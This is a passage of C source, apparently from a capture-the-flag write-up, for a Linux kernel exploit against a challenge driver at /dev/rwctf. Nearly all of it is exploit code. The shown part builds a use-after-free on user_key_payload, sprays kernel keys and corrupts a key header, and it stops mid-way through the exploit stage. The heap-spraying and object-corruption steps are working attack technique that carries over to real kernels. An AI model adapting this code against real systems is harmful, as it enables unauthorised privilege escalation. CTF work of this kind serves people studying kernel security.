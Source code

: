 ```c

    ioctl(dev_fd, 0xDEADBEEF, &n);
}

void del(uint32_t idx)
{
    struct node n = {
        .idx = idx,
    };

    ioctl(dev_fd, 0xC0DECAFE, &n);
}

/**
 * Exploit stage
 */

int main(int argc, char **argv, char **envp)
{
    size_t *buf, pipe_buffer_addr;
    int key_id[KEY_SPRAY_NUM], victim_key_idx = -1, pipe_key_id;
    char desciption[0x100];
    int pipe_fd[2];
    int retval;

    /* fundamental works */
    bind_core(0);
    save_status();

    buf = malloc(sizeof(size_t) * 0x4000);

    dev_fd = open("/dev/rwctf", O_RDONLY);
    if (dev_fd < 0) {
        err_exit("FAILED to open the /dev/rwctf file!");
    }

    /* construct UAF on user_key_payload */
    puts("[*] construct UAF obj and spray keys...");
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    del(0);

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        snprintf(desciption, 0x100, "%s%d", "arttnba", i);
        key_id[i] = key_alloc(desciption, buf, PIPE_INODE_INFO_SZ - 0x18);
        if (key_id[i] < 0) {
            printf("[x] failed to alloc %d key!\n", i);
            err_exit("FAILED to add_key()!");
        }
    }

    del(0);

    /* corrupt user_key_payload's header */
    puts("[*] corrupting user_key_payload...");

    buf[0] = 0;
    buf[1] = 0;
    buf[2] = 0x2000;

    for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++) {
        alloc(0, PIPE_INODE_INFO_SZ, buf);
    }

```